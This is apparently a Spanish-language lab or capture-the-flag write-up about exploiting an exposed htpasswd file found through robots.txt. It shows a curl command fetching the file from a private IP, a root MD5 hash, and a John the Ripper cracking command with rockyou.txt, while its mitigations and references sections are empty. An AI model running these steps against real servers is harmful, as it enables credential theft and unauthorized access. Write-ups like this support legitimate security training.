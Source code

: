 # Explotación archivo htpasswd


## Ataque
En el reconocimiento inicial, hemos visto que el servidor usa el fichero **robots.txt** para ocultar ciertos archivos o directorios de crawlers.


Nos centramos aquí en la carpeta **whatever**, en donde encontramos un archivo **htpasswd**, que es un archivo de credenciales para acceso por roles.

Obtenemos el archivo en local para ver su contenido.

```bash
curl http://192.168.13.47/whatever/htpaswd -o htpasswd -L && cat htpasswd

root:437394baff5aa33daa618be47b75cb49
```

Hemos obtenido un archivo con lo que parece ser credenciales para el usuario root, y el hash es sospechosamente parecido a un **MD5**.

Lanzamos un john para ver si podemos crackearlo.

```
./john --format=raw-md5 --wordlist=rockyou.txt ./htpasswd


```

Son credenciales de admin, pues nos intentamos loggear como admin.

## Mitigaciones

## Referencias